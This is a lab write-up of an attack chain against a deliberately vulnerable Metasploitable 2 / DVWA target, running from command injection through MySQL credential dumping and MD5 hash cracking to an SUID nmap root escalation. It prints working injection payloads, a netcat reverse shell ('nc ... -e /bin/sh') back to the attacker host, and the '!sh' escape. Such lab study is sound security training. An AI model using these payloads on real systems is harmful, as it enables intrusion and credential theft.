# Metasploitable Lab 11 — Web to Root via Command Injection, MySQL Pivot, and SUID Exploitation

## Objective

The objective of this lab was to achieve full system compromise by exploiting a web application vulnerability, pivoting through local database access, and escalating privileges to root through a misconfigured SUID binary.

This lab demonstrates a realistic multi-stage attack chain combining web exploitation, credential extraction, shell upgrading, and privilege escalation.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Web Browser | Web application interaction |
| Netcat (nc) | Reverse shell listener |
| MySQL | Local database interaction |
| John the Ripper | Password hash cracking |
| Linux commands | Local enumeration and privilege escalation |

---

# Step 1 — Web Enumeration

The target web server was accessed:

http://192.168.56.3

Several vulnerable web applications were discovered, including:

- DVWA
- Mutillidae
- phpMyAdmin

DVWA was selected as the primary attack surface because it provided direct access to web application vulnerabilities and a likely path to database-backed functionality.

---

# Step 2 — DVWA Authentication

The DVWA login page was accessed:

http://192.168.56.3/dvwa/login.php

The following credentials were used:

admin  
password  



Authentication was successful.

The DVWA security level was then set to:

LOW  



---

## Analysis

- Default credentials were enabled  
- Security level adjustment allowed exploitation of intentionally vulnerable modules  
- Confirmed access to the application as an authenticated user  

---

# Step 3 — Command Injection

The Command Execution module was selected from the DVWA menu.

The following input was submitted:

127.0.0.1; whoami  

---

## Result

Output confirmed command execution:

www-data  



---

## Analysis

- Web application input was vulnerable to command injection  
- Commands were executed as the Apache web server user `www-data`  
- This provided OS-level access through the web interface  

---

# Step 4 — Extracting Database Credentials

Direct output from some commands did not display cleanly in the browser. To work around this, command output was redirected to a file inside the DVWA web root.

The following command was used:

127.0.0.1; cat /var/www/dvwa/config/config.inc.php > /var/www/dvwa/hacked.txt  

The file was then accessed via browser:

http://192.168.56.3/dvwa/hacked.txt



---

## Result

The DVWA configuration file revealed:

```
$DBMS = 'MySQL';  
$_DVWA[ 'db_server' ] = 'localhost';  
$_DVWA[ 'db_database' ] = 'dvwa';  
$_DVWA[ 'db_user' ] = 'root';  
$_DVWA[ 'db_password' ] = '';  
```
---

## Analysis

- DVWA was configured to connect to MySQL as `root`  
- The database password was blank  
- MySQL was accessible locally from the target, even though remote root access from Kali was restricted  

---

# Step 5 — Accessing MySQL Locally

Remote MySQL access attempts from Kali had previously failed due to host-based restrictions. Using command injection, MySQL commands were executed locally on the target.

The following command was used:

127.0.0.1; mysql -u root -e "USE dvwa; SHOW TABLES;"

---

## Result



The following tables were returned:

guestbook  
users  

---

## Analysis

- Local MySQL access succeeded with the extracted credentials  
- This confirmed that the web application could be used as a pivot into the database  
- The `users` table was identified as the most valuable target  

---

# Step 6 — Dumping User Data

The `users` table was queried with:

127.0.0.1; mysql -u root -e "USE dvwa; SELECT * FROM users;" 



---

## Result

The following records were extracted:

user_id  first_name  last_name  user     password  
1        admin       admin      admin    5f4dcc3b5aa765d61d8327deb882cf99  
2        Gordon      Brown      gordonb  e99a18c428cb38d5f260853678922e03  
3        Hack        Me         1337     8d3533d75ae2c3966d7e0d4fcc69216b  
4        Pablo       Picasso    pablo    0d107d09f5bbe40cade3de5c71e9e9b7  
5        Bob         Smith      smithy   5f4dcc3b5aa765d61d8327deb882cf99  

---

## Analysis

- Usernames and password hashes were extracted successfully  
- Passwords were stored as unsalted MD5 hashes  
- This represented significant credential exposure  

---

# Step 7 — Cracking Password Hashes

The extracted hashes were saved to a local file and cracked using John the Ripper:

john hashes.txt --format=raw-md5  

---

## Result




The following passwords were recovered:

| User | Password |
|------|----------|
| admin | password |
| gordonb | abc123 |
| 1337 | charley |
| pablo | letmein |
| smithy | password |

---

## Analysis

- Weak MD5 hashes were trivial to crack  
- Although these credentials did not provide SSH access, they demonstrated poor password storage and further validated the compromise of the application layer  
- This also showed that application accounts are not necessarily the same as system accounts  

---

# Step 8 — Reverse Shell Access

To overcome the limitations of browser-based command execution and obtain a proper interactive shell, a reverse shell was used.

A Netcat listener was started on Kali:

nc -lvnp 4444



Then the following payload was executed via DVWA:

127.0.0.1; nc 192.168.56.2 4444 -e /bin/sh



---

## Result

A reverse shell connected back to Kali.

Initial verification commands returned:



whoami → www-data  
id → uid=33(www-data) gid=33(www-data)  
pwd → /var/www/dvwa/vulnerabilities/exec  

---

## Analysis

- Reverse shell access provided a proper interactive environment  
- This solved the limitations of the web-based execution interface  
- The attacker now had direct shell access as `www-data`  

---

# Step 9 — SUID Enumeration

Privilege escalation opportunities were enumerated using:

find / -perm -4000 -type f 2>/dev/null  

---

## Result



Several SUID binaries were identified. The most notable entry was:

/usr/bin/nmap  

---

## Analysis

- SUID binaries execute with the permissions of their owner, often root  
- Older versions of Nmap support interactive mode, which can allow shell escape  
- This presented a promising privilege escalation path  

---

# Step 10 — Privilege Escalation via Nmap

From the reverse shell, the following was executed:

nmap --interactive



At the `nmap>` prompt, the following shell escape was used:

!sh  

---

## Result

A root shell was obtained.

Verification:



whoami  

Output:

root  

---

## Analysis

- Nmap interactive mode successfully spawned a shell as root  
- Privilege escalation was achieved through abuse of an SUID binary  
- This completed the transition from `www-data` to full system compromise  

---

# Security Concepts Learned

This lab demonstrated several critical concepts:

- **Command Injection** — Executing operating system commands through vulnerable web input  
- **Output Redirection** — Writing command output to a web-accessible file when browser output is limited  
- **Credential Extraction** — Recovering database credentials from application configuration files  
- **Local Database Pivoting** — Using web-based execution to interact with a local-only database service  
- **Hash Cracking** — Recovering plaintext passwords from weak MD5 hashes  
- **Reverse Shells** — Upgrading from limited command execution to interactive shell access  
- **SUID Enumeration** — Identifying binaries that run with elevated privileges  
- **Privilege Escalation** — Abusing SUID Nmap interactive mode to gain root  

---

# Lessons Learned

- Web application vulnerabilities can provide a path to full system compromise when chained correctly  
- Database credentials are commonly stored in application configuration files  
- Local access restrictions can often be bypassed when command execution is achieved on the target itself  
- Unsalted MD5 password hashes are weak and easily cracked  
- Browser-based command execution is often limited, making shell upgrades essential  
- Interactive shells enable more reliable privilege escalation techniques  
- SUID misconfigurations can be as dangerous as direct software vulnerabilities  
- Effective penetration testing requires adaptation when initial techniques do not work as expected  

---

# Final Outcome

- DVWA identified as the initial attack surface  
- Command injection achieved as `www-data`  
- Database credentials extracted from configuration file  
- Local MySQL access obtained through the compromised web application  
- User table dumped and password hashes cracked  
- Reverse shell established for interactive access  
- SUID Nmap identified and exploited  
- Privilege escalation achieved  
- Root access obtained  

---

# Conclusion

This lab demonstrated a complete attack chain from web application compromise to root access. Rather than relying on a single exploit or default credential, the attack required multiple stages: identifying a vulnerable web feature, extracting sensitive configuration data, pivoting into a local database, obtaining a proper shell, and finally escalating privileges through SUID misconfiguration.

This was a significantly more realistic and involved compromise than earlier labs, showing how attackers chain together smaller weaknesses across multiple layers of a system to achieve full control.